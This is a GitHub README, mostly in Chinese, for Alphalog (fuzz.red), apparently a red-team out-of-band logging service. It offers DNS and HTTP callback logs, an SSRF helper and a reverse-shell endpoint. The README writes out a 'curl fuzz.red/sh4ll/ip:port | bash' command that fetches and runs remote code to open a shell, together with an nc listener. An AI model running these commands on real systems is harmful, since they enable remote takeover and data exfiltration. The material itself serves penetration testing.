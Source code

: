 <img src="fuzz.red.jpg">

# Alphalog

Alphalog 更快、更安全。支持完全匿名 产品(fuzz.red)

```bash
  $$$$$$\  $$\           $$\                 $$\                          
 $$  __$$\ $$ |          $$ |                $$ |                         
 $$ /  $$ |$$ | $$$$$$\  $$$$$$$\   $$$$$$\  $$ |      $$$$$$\   $$$$$$\  
 $$$$$$$$ |$$ |$$  __$$\ $$  __$$\  \____$$\ $$ |     $$  __$$\ $$  __$$\ 
 $$  __$$ |$$ |$$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |     $$ /  $$ |$$ /  $$ |
 $$ |  $$ |$$ |$$ |  $$ |$$ |  $$ |$$  __$$ |$$ |     $$ |  $$ |$$ |  $$ |
 $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |\$$$$$$$ |$$$$$$$$\\$$$$$$  |\$$$$$$$ |
 \__|  \__|\__|$$  ____/ \__|  \__| \_______|\________|\______/  \____$$ |
               $$ |                                             $$\   $$ |
               $$ |                 By:Alphabug                 \$$$$$$  |
               \__|                 Version:0.2022.01.15.05      \______/
```

# Welcome to Fuzz.Red #
Usage:
1.Get Token and The randomly named subdomain (Expires:1 Day)
$ curl fuzz.red/get
=>	{"key":"63d755be-9683-40a9-91fb-b85890155872","subdomain":"oz4e.fuzz.red"}

2.Get Log

```bash
curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":[]}
```

# DNSLOG

```bash
ping -c 1 oz4e.fuzz.red
```

```bash
curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":["{\"ip\":\"192.168.1.1\",\"reqbody\":[\"\"],\"subdomain\":\"oz4e.fuzz.red.\",\"time\":\"2022-01-14 17:01:17 +0800 CST\",\"type\":\"dns\"}"]} 
```

# HTTPLOG

```bash
curl oz4e.fuzz.red -d "abc"
```

```bash
curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool
{
"Code": 200,
"Data": [
	{...}]
}
```

# SSRF

```bash
curl -L fuzz.red/ssrf/www.baidu.com/
=> <!DOCTYPE html>...(www.baidu.com page)...</html>
```


# 反弹shell

```bash
$ curl fuzz.red/sh4ll/ip:port
```

Server

```bash
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | bash
or $ curl fuzz.red/sh4ll/1.2.3.4:1234 | sh
```

VPS

```bash
=> $ nc -lvvp 1234
=> listening on [any] 1234 ...
   connect to [1.2.3.4] from fbi.gov [127.0.0.1] 46958
```

## 作者有话说

###  项目名称为：Alphalog，作者Alphabug。
采用Go编写开发 DNS服务、Http服务等，后续等待开源。

项目域名为匿名域名，请求接口没有做任何的记录。所有dnslog存活时间为1天，大家可以亲测。

（请勿CC/DDos，服务器特别贵，可能没办法退钱）
       
## 项目日志：
- 2021年12月14日 17:30:35 第一个版本完成
- 2021年12月14日 20:14:57 特别感谢团队成员hexman、Longlone（WaY）测试提出的各类bug。
- 2021年12月14日 20:26:33 上架公测，我是Alphabug欢迎大家提需求，目的就是让dnslog扩展性更高，如果您有建议请邮箱联系我：alphabug@redteam.site
- 2021年12月14日 21:17:15 页面不再更新，Issue 上github吧。项目地址 https://github.com/AlphabugX/Alphalog
- 2022年01月15日 17:07:41 添加httplog功能，升级数据格式。
- 2022年01月15日 17:52:03 添加SSRF辅助功能。
- 2022年01月15日 18:52:42 添加反弹shell功能,支持bash、sh、nc、python、awk、telnet弹shell方法。

## curl 效果日志
![image](https://user-images.githubusercontent.com/27001865/149620709-e02d8876-8320-445c-8cf3-151f653b04b3.png)
